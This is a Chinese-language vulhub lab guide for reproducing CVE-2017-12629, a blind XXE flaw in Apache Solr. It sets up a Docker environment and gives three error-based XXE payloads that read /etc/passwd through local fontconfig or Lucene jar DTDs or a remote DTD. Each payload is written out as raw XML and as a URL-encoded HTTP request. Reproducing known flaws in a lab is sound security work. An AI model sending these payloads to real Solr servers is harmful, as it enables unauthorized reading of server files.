

# Apache solr XML 实体注入漏洞（CVE-2017-12629）

漏洞原理与分析可以参考：

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境仅测试XXE漏洞，RCE和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 环境搭建

运行漏洞环境：

```
docker compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞。但我们可以利用[Error Based XXE](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)来读取文件。

利用Error Based XXE，需要找到符合条件的dtd文件，这里提供几个思路。

### 利用fontconfig-config的fonts.dtd

openjdk的Docker镜像安装了fontconfig-config，其包含一个dtd文件符合要求：`/usr/share/xml/fontconfig/fonts.dtd`。

构造XXE Payload如下：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

对其编码后发送：

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22file%3A%2F%2F%2Fusr%2Fshare%2Fxml%2Ffontconfig%2Ffonts%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20expr%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

成功读取到/etc/passwd文件：


### 利用Jar包中的dtd文件

因为是黑盒，我们无法预测目标服务器安装的软件，利用软件内部的dtd文件会是一个更好的办法，比如Solr依赖的lucene-queryparser.jar中包含的LuceneCoreQuery.dtd。

构造XXE Payload如下：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/solr/server/solr-webapp/webapp/WEB-INF/lib/lucene-queryparser-7.0.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

对其编码后发送：

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22jar%3Afile%3A%2F%2F%2Fopt%2Fsolr%2Fserver%2Fsolr%2Dwebapp%2Fwebapp%2FWEB%2DINF%2Flib%2Flucene%2Dqueryparser%2D7%2E0%2E1%2Ejar%21%2Forg%2Fapache%2Flucene%2Fqueryparser%2Fxml%2FLuceneCoreQuery%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20queries%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

成功读取到/etc/passwd文件：


### 利用远程dtd文件

如果我们确实无法在目标服务器上找到合适的本地dtd文件，且服务器可以连接外网，也可以利用远程dtd文件来实现。

部署一个dtd文件在http服务器中：

```xml
<!ENTITY % test "example">
<!ELEMENT pattern (%test;)>
```

然后构造XXE Payload如下：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">

    <!ENTITY % test 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

对其编码后发送：

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22https%3A%2F%2Fgist%2Egithubusercontent%2Ecom%2Fphith0n%2F188f03ac0f3c5d899895268f05fd0a51%2Fraw%2F7b481b122622d77c49c619fa047a52051f9652d8%2Finclude%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20test%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

成功读取到/etc/passwd文件：


